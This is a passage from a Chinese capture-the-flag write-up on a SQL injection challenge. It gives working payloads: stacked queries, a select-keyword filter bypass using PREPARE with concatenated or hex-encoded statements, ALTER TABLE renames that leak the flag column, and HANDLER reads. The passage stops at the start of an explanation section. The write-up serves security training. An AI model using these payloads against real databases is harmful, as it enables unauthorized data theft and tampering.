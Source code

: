2.提交后提示error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1，说明后端参数后面有可能存在其他sql语句，我们在1' or 1 = 1后面加一个#，将可能存在的其他sql语句注释掉，即：1' or 1 = 1#，成功输出了该表的所有数据，但是没有flag



3.既然存在sql注入，那么我们手动探测一下其他的表，首先判断一下字段个数：' union select 1,2;#，系统提示return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);，preg_match函数用于执行正则表达式，也就是说，系统通过该代码将select等关键字都过滤了。

4.既然select关键字无法使用，我们可以通过堆叠注入的方式，来绕过select关键字。

5.查看数据库名：1';show databases;#



6.查看数据表：1';show tables;#



7.我们先来看一下第一个表1919810931114514的表结构，有两种方式：

方式一：1'; show columns from tableName;#

方式二：1';desc tableName;#

注意，如果tableName是纯数字，需要用`包裹，比如1';desc `1919810931114514`;#

获取到字段名为flag：



8. 因为select关键字被过滤了，所以我们可以通过预编译的方式拼接select 关键字：1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#得flag：flag{c0fc32ff-8ae1-4b96-8da0-1f621d7fdae3} （关于预编译的讲解请见下文）

方法二：
前几步和方法一一致，最后一步（第8步），我们可以直接将select * from `1919810931114514`语句进行16进制编码，即：73656c656374202a2066726f6d20603139313938313039333131313435313460，替换payload：

1';PREPARE hacker from 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;EXECUTE hacker;#

同时，我们也可以先定义一个变量并将sql语句初始化，然后调用

1';Set @jia = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;PREPARE hacker from @jia;EXECUTE hacker;#

方法三
最后一步（第8步）也可以通过修改表名和列名来实现。我们输入1后，默认会显示id为1的数据，可以猜测默认显示的是words表的数据，查看words表结构第一个字段名为id我们把words表随便改成words1，然后把1919810931114514表改成words，再把列名flag改成id，就可以达到直接输出flag字段的值的效果：1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);# ，然后通过1' or 1 = 1 #，成功获取到flag。 （关于更改表名的讲解请见下文）

方法四
此题还可以通过handle直接出答案：1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;

（关于的handle的讲解请见下文）

知识详解
1.预编译
预编译相当于定一个语句相同，参数不通的Mysql模板，我们可以通过预编译的方式，绕过特定的字符过滤

格式：

